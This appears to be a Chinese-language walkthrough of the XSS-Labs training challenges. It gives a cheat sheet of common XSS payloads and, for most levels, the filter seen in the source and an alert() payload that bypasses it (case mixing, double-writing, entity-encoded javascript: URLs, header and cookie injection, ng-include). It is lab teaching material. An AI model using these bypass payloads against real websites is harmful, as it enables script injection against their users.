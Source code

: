 ```yaml
---
title: Xss-Labs通过文档
author: Kilm0r
description: "xss注入备忘录"
pubDate: 2025-05-08
tags: ["安全", "xss", "渗透"]
---
```

<h1 id="Exg7d">常用payload：</h1>
```javascript
<script>alert("xss")</script>
  
<body onload=alert()>
 
<img src=x onerror=alert()>
 
<svg onload=alert()>
 
<body onpageshow=alert(1)>
 
<div style="width:1000px;height:1000px" onmouseover=alert()></div>
 
<marquee width=10 loop=2 behavior="alternate" onbounce=alert()> (firefox only)
 
<marquee onstart=alert(1)> (firefox only)
 
<marquee loop=1 width=0 onfinish=alert(1)> (firefox only)
 
<input autofocus="" onfocus=alert(1)></input>
 
<details open ontoggle="alert()">  (chrome & opera only)
```

  
 

<h2 id="J5B4V">开局：</h2>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692622630-b9fc59c2-4b10-4248-bd55-a68eb7cc474c.png)

<h1 id="lG3OP">第一关：</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692656119-7bcc933c-e35c-4d8f-bdc4-8dc5fa2594ef.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692689466-128e6459-1693-4bd0-beb6-9217ff927d79.png)

<h1 id="Ee92T">第二关：</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692815087-1b428890-e8f2-41c0-9017-3b5941f9cfd6.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692860224-12c49aab-7b2b-471d-b191-be9f3690506d.png)

闭合前后尖括号使js代码生效

"><script>alert("s")</script><"

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692906568-bfe23aa0-af38-4f83-ae9f-634b7fe9272f.png)

<h1 id="dxW5y">第三关：</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748692974430-04cef713-3ed9-40a6-8acf-abe3d95cdab1.png)

括号被实体化，尝试更改其他方式代替,<font style="color:rgb(77, 77, 77);">但是htmlspecialchars函数只针对<>（即大于小于号）进行html实体化，我们还可以利用其他方法进行xss注入</font>

```javascript
" onfocus=javascript:alert() "
```

<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);"> </font>

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693248102-2394a98b-8636-465e-8bcf-254e2aa16702.png)

<h1 id="BqiRB">第四关：</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693299936-d6b11e15-6684-4b6d-a897-11c566f55a5d.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693364651-8cc752d5-9093-4c5f-b121-f98957ed4f90.png)

括号被实体化，尝试用其他方法绕过，不使用括号

" onfocus=javascript:alert() "

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693415921-8392cd08-7c85-4a60-807f-5665ec32f3cf.png)

<h1 id="nk27O">第五关：</h1>
先用常规语句试探下

<script>alert("xss")</script>



![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693476074-a0f7a5a9-8875-45e6-9e14-4d95c0890000.png)

<input name="keyword" value="&lt;scr_ipt&gt;alert(" xss")<="" script="">

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693580737-4db83ec6-df4d-4feb-b7c8-7060cc68bfa5.png)

源码处发现使用str_replace函数，<script>转换为<scr_ipt> on转换为o_n



使用a标签绕过script与on标签

```javascript
"/><a href=javascript:alert()>a-alert</a><"
```

  
 ![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693680555-c201b65d-247c-4929-87aa-36c18713ed87.png)

<h1 id="BKN09">第六关：</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693701767-90ca1802-b407-4f97-8137-a30fbc7bf788.png)

使用常规语句：<script>alert("xss")</script>试探下

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693768598-286a7db1-df37-4055-9c2b-39d6a0322bb2.png)

源码处的得知script、on、src、data、href被过滤，a标签 script标签不能用

这里可以使用大小写绕过

"><Script>alert("AA")</SCRipt><"

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693893515-e0da28f5-6cfc-4bc2-b1b4-4c5e9f13daf6.png)

<h1 id="DkcjH">Level 7</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693918726-3603d45b-e6e9-4483-b789-afea2831d755.png)![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748693955068-2886656b-0882-4bbf-93d7-6e104d5e9e5d.png)

源码处得知使用strtolower输入被小写，防止大写字母绕过，script、on、src、data、href被过滤

"><SCRscriptIPT>alert("aa")</Scrscriptipt><"

这里我们使用双写绕过，删掉中间标签的同时剩下的标签还能组成新的标签

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694198203-e8bf13ec-3350-460f-b2d4-b6276c9935c7.png)  


<h1 id="BGo1C">level 8</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694247444-41d5a63e-8132-4e5c-a26e-61d780ed37b2.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694256090-19848ab8-b5ba-4245-bbaa-4a8857b0a984.png)

源码处得知过滤新增了“引号

这里绕过可以使用<font style="color:rgb(77, 77, 77);">href的隐藏属性自动Unicode解码，我们可以插入一段js伪协议</font>

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694319636-045e0fd8-d3df-4ab0-9782-1a303e7f3423.png)

```javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
```

  
 ![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694338825-d8863254-eeb2-4f51-8daa-7264c0890927.png)



<h1 id="Cdj7L">level 9</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694355285-c912d8b4-933b-48fe-9a69-312bbf04f5a7.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694389180-8c84ceb1-24b9-4c73-b8fc-3733c885fe4b.png)

源码处得知不仅过滤了标签script、on、src、data、href、“双引号的同时还增加了判断，判断链接地址是否存在http://

<font style="color:rgb(77, 77, 77);">为了防止false===false，我们需要向传入的值里面添加http://，而且要用注释符注释掉，否则会执行不了、无法弹窗，让函数strpos返回一个数字，构造payload</font>

```javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;/* http:// */
```

<font style="color:rgb(77, 77, 77);">  
</font><font style="color:rgb(77, 77, 77);"> </font>![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694507907-f10ebe2f-52f2-4e25-a8cc-9d145165828b.png)

<h1 id="aDtkD">Level 10</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694520611-6dd4bd56-3de2-4a8d-b2df-1c81695e224d.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694557283-a9c1967b-54e2-41ea-963b-95ef4ba3df3a.png)

源码处得知过滤掉<> <font style="color:rgb(77, 77, 77);">所以我们用onfocus事件，因为这里输入框被隐藏了，需要添加type="text"，构造payload</font>

```javascript
?t_sort=" onfocus=javascript:alert() type="text
```

  
 

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694631079-3b2450d8-5344-4bd5-bbdb-729226ab3a06.png)

<h1 id="RTNrK">Level 11</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694654570-284853f8-78b2-4765-96c4-20db025ff4fc.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694679986-41944515-8575-43ee-8985-f532355029ce.png)

源码处得知，接收http头信息，同时过滤<>

在头部http_refere部分插入xss代码

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694841769-417a94fa-41c0-4d84-acf4-f7377dd51e60.png)



<h1 id="J7KcJ">Level 12</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748694888845-b90d578a-b567-467e-894a-117bc512d7bf.png)

源码处得知接收http_user_agent浏览器信息，同时过滤<>

我们继续同上方法插入UA头信息测试

```javascript
" onfocus=javascript:alert() type="text
```

  
 ![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695013999-b62c8694-a878-4c37-93c1-29d3c8f7eb75.png)

<h1 id="HRe86">Level 13</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695051874-f0a0eafa-1492-4e96-8cc0-b64368bbdcbf.png)

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695066091-e217416b-4407-49e2-9a2a-31df46b92c9e.png)

源码处得知接收俩个参数keyword与t_sort同时过滤<>,使用$_COOKIE["user"]，接收浏览器cookie信息
，同上继续使用onfocus函数，插入cookie位置
```javascript
" onfocus=javascript:alert() type="text
```

  
 

<h1 id="SHLf9">level 14</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695305217-f966b248-62e0-4332-9fde-d73347f68eba.png)

这关目前做不了，含义为跳转该网站，在该网站上传存在xss代码图片，跳转到该网站后弹窗，目前该网站已经关闭，本关略过



<h1 id="Y25Dr">Level 15</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695440534-a4146bd1-88fc-4ffc-a51a-b48c0650eed2.png)![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695480191-141e2026-52c8-486a-952e-52b3e55bee04.png)

输出使用ng-include函数包含，可以包含其他文件，这里包含第一个通关文件，之后在第一个文件弹窗

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695520322-72f73906-dde7-4428-9e52-16b98ece61ea.png)

```python
?src='level1.php?name=<img src=XXX onmouseover=alert()>'
```

  
 ![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695587337-7f1c7f5c-6190-4e10-8441-7c07290c5aa5.png)

<h1 id="cUxQZ">Level 16</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695623584-86f575e2-4c87-4fa2-be1f-92c173072d09.png)

源码出得知，是替换script、“、/等符号，

<font style="color:rgb(77, 77, 77);">空格可以用回车来代替绕过，回车的url编码是%0a，再配合上不用/的<img>、<details>、<svg>等标签</font>

![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695702619-ff7d7621-4354-46e5-80ac-c50273007946.png)![](https://cdn.nlark.com/yuque/0/2025/png/39176307/1748695756054-19202322-fc4e-4e19-94f0-1e1c1a1bb210.png)



